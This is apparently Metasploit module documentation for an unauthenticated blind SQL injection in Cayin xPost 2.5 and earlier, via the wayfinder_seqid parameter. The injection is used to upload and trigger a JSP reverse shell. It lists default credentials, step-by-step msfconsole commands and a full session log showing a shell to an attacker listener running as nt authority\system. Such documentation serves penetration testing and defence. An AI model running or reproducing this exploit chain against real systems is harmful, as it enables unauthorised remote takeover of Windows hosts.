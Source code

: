 ## Vulnerable Application

This module exploits an unauthenticated SQLi in Cayin xPost <=2.5. 
The `wayfinder_meeting_input.jsp` file's `wayfinder_seqid` parameter can 
be injected with a blind SQLi. Since this app bundles MySQL and Apache 
Tomcat the environment is pretty static and therefore the default 
settings should work. Results in SYSTEM level access. Only the 
`java/jsp_shell_reverse_tcp` and `java/jsp_shell_bind_tcp` payloads seem 
to be valid.

Default authentication for the system is administrator:admin from
[Guide](http://onlinehelp.cayintech.com/xPost/PDF/MAXP20EN110504-l.pdf) page 16

## Verification Steps

  1. Install the application and start it
  2. Start msfconsole
  3. Do: ```exploit/windows/http/cayin_xpost_sql_rce```
  4. Do: ```set rhosts [ip]```
  5. Do: ```run```
  6. You should get a shell.

## Options

### LOCALWEBROOT

Path to the `webapps` folder for Cayin.  Defaults to `C:/CayinApps/webapps/`

## Scenarios

### Cayin xPost 2.5 on Windows 10.0.16299.125

  ```
  [*] Processing xpost.rb for ERB directives.
  resource (xpost.rb)> use exploit/windows/http/cayin_xpost_sql_rce
  resource (xpost.rb)> set payload java/jsp_shell_reverse_tcp
  payload => java/jsp_shell_reverse_tcp
  resource (xpost.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (xpost.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (xpost.rb)> set verbose true
  verbose => true
  resource (xpost.rb)> exploit
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [*] Utilizing payload filename cY0bWf1Rh6C9.jsp
  [*] Payload Size: 1499
  [*] Payload Size Encoded: 2998
  [*] Attempting Exploitation
  [*] Triggering uploaded payload
  [*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:50158) at 2020-06-09 12:20:33 -0400
  [!] Tried to delete C:/CayinApps/webapps/cY0bWf1Rh6C9.jsp, unknown result
  
  
  C:\CayinApps\Tomcat>
  C:\CayinApps\Tomcat>whoami
  whoami
  nt authority\system
  
  C:\CayinApps\Tomcat>ver
  ver
  
  Microsoft Windows [Version 10.0.16299.125]
  
  C:\CayinApps\Tomcat>
  ```
